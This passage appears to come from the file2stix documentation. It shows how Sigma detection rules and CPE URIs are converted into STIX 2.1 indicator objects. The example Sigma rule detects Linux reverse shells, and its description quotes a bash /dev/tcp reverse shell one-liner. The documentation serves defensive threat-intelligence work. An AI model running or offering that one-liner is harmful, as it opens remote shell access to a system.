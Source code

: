 ```json
        }
      }
    },
    "external_references": [
      {
        "source_name": "file2stix",
        "description": "This object was created using file2stix from the Signals Corps.",
        "url": "https://github.com/signalscorps/file2stix"
      }
    ]
  }
```

The SIGMA RULE is encoded with JSON escapes before being written into the `pattern` value. e.g.

```
title: Linux Reverse Shell Indicator\r\nid: 83dcd9f6-9ca8-4af7-a16e-a1c7a6b51871\r\nstatus: experimental\r\ndescription: Detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& \/dev\/tcp\/10.0.0.1\/4242 0>&1')\r\ndate: 2021\/10\/16\r\nauthor: Florian Roth\r\nlogsource:\r\n   product: linux\r\n   category: network_connection\r\ndetection:\r\n   selection:\r\n      Image|endswith: '\/bin\/bash'\r\n   filter:\r\n      DestinationIp: \r\n         - '127.0.0.1'\r\n         - '0.0.0.0'\r\n   condition: selection and not filter

```

The `<RULE NAME>` is defined by the value in the `title: ` field of the YAML rule.

### 20. CPE Observables (`software`)

* e.g. Full CPE URI `cpe:2.3:o:apple:mac_os_x:10.1.3:*:*:*:*:*:*:*`

CPEs can be identified as they start with `cpe:` and have 12 separators `:` in total.

CPEs are represented by [STIX Software SCOs (`"type": "software"`)](https://docs.oasis-open.org/cti/stix/v2.1/csprd01/stix-v2.1-csprd01.html#_Toc16070740)

#### STIX 2.1 extension-definition

https://raw.githubusercontent.com/signalscorps/stix2-objects/main/extension-definition/extension-definition--6c453e0f-9895-498f-a273-2e2dda473377/20220101000000000.json

#### STIX 2.1 Indicator SDO

```json
  {
    "type": "indicator",
    "spec_version": "2.1",
    "id": "indicator--<GENERATED BY STIX2 LIBRARY>",
    "created_by_ref": "identity--<IF TLP RED/AMBER/GREEN USER IDENTITY ID>",
    "created": "<REPORT CREATED PROPERTY VALUE>",
    "modified": "<REPORT MODIFIED PROPERTY VALUE>",
    "indicator_types": ["unknown","<IF MATCHES WARNING LIST BENIGN>"],
    "confidence": "<CONFIDENCE SCORE IF SET AND TLP RED/AMBER/GREEN>",
    "name": "CPE: <EXTRACTED CPE URI>",
    "pattern_type": "stix",
    "pattern": "[ software:cpe = '<EXTRACTED CPE URI>' ]",
    "valid_from": "<REPORT CREATED PROPERTY VALUE>",
    "object_marking_refs": [
      "marking-definition--<TLP LEVEL SET>"
    ],
    "extensions": {
      "extension-definition--d83fce45-ef58-4c6c-a3f4-1fbc32e98c6e": {
        "extension_type": "property-extension",
        "misp_warning_list_match": [
          "MISP WARNING LIST MATCH[0]"
        ],
        "custom_warning_list_match": [
```